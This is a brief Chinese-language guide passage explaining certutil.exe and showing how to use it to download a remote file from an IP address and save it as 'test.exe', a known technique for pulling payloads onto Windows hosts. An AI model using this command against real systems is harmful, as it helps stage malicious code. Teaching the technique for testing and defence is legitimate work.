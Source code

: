##### certutil.exe是一个命令行程序，作为证书服务的一部分安装，你可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件，以及验证证书，密钥对和证书链。

##### 这里我们用到的参数如下：

![certutil](Windows&Linux常见文件下载方法/certutil.png)

##### 借助certutil程序的命令进行文件下载：

```
certutil -urlcache -split -f http://192.168.10.11/eval.txt test.exe
```
